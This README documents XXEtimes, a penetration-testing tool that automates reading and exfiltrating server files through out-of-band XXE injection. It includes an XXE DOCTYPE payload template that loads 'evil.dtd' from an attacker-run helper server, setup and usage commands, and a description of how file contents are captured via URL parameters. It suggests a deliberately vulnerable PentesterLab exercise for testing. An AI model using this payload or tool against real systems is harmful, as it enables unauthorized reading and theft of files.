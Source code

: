 # XXEtimes
XXEtimes is a self-contained PoC to make exploring and exfiltrating files through OOB XXE much quicker.

I come across blind XXE injection vulnerabilities quite a bit, and love using OOB techniques to read files and directory contents, but it's a very tedious process.

Usually it's a multi-step process that involves using Burp Suite Repeater to send the malicious request, a web server to serve up the crafted DTD file, and another listening server to capture the OOB HTTP request which contains file contents. And to change file or directory I have to manually modify the DTD and resend the request each time.

I got sick of the setup time and spinning up servers, so I wrote XXEtimes. Its aim is to be a self-contained tool to aid in data exfiltration once an OOB XXE injection has been discovered. It parses a request file from Burp, spins up a webserver, serves a DTD, and parses responses for file contents. It continually runs and lets you just type files or directories you want to exfiltrate.

See it in action here. I used it to browse home directories and find an unprotected key backup:

[![asciicast](https://asciinema.org/a/122903.png)](https://asciinema.org/a/122903)

## Setting Up
```
git clone https://github.com/ropnop/xxetimes.git
cd xxetimes
pip install requests
python xxetimes.py
```

The script requires a request file. Once you have found an XXE injection in Burp, export the request file to txt. Add the following DOCTYPE declaration to the request:

```
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file://{targetFilename}">
<!ENTITY % dtd SYSTEM "http://{xxeHelperServerInterface}:{xxeHelperServerPort}/evil.dtd">
%dtd;]>
```

The special params in "{}" are necessary for XXEtimes to work. There is an example request file in the repo. This works with the deliberately vulnerable [PlayXXE challenge](https://pentesterlab.com/exercises/play_xxe) from Pentesterlab if you want to test it.

## Usage

```
$ python xxetimes.py -h
usage: xxetimes.py [-h] -f REQUESTFILE [-p PORT] [-t TARGETHOST]
                   [-l LISTENPORT] -i INTERFACE

Local File Explorer Using XXE DTD Entity Expansion

optional arguments:
  -h, --help            show this help message and exit
  -f REQUESTFILE, --requestFile REQUESTFILE
                        Vulnerable request file with {targetFilename},
                        {xxeHelperServerInterface}, and {xxeHelperServerPort}
                        marked
  -p PORT, --port PORT  Port on target host (eg 80, 443)
  -t TARGETHOST, --targetHost TARGETHOST
                        Override host header in request file
  -l LISTENPORT, --listenPort LISTENPORT
                        Port for local DTD helper server
  -i INTERFACE, --listenIP INTERFACE
                        Bind IP address for local DTD helper server
```

It will likely require customization and tweaking for each specific vulnerability, but as long as the locations `{targetFilename}`, `{xxeHelperServerInterface}` and `{xxeHelperServerPort}` are present it should work.

Once you have your request file created with the appropriate injection points marked, fire it up with:

`python xxetimes.py -f request.txt -i <IP address to listen on>`

After the server spins up, simply type in the file or directory you wish to request (note: if the file doesn't exist or you don't have permissions, it will fail silently and display nothing)

On the backend, XXEtimes is customizing the "evil.dtd." file to define the `file` entity for what you enter. It then sends the malicious request, listens for the request for 'evil.dtd', serves up `evil.dtd`, listens for the subsequent request which contains the file contents in a URL parameter, then decodes file contents and displays it on screen.

To shutdown gracefully, enter `Ctrl-C`.



## Testing it out
Since I didn't want to write an actually vulnerable server, I've been testing with the "Play XXE" challenge ISO located here. 

<https://pentesterlab.com/exercises/play_xxe/course>

It's a bootable ISO you can run locally if you want to test it. It is vulnerable to XXE on the main login page, and the example request should work out of the box on it (as long as the IP address is updated!)


## Future plans
[ ] Support history and "up arrow" completion
[ ] Save files locally once they're retrieved
[ ] Support other OOB methods like FTP
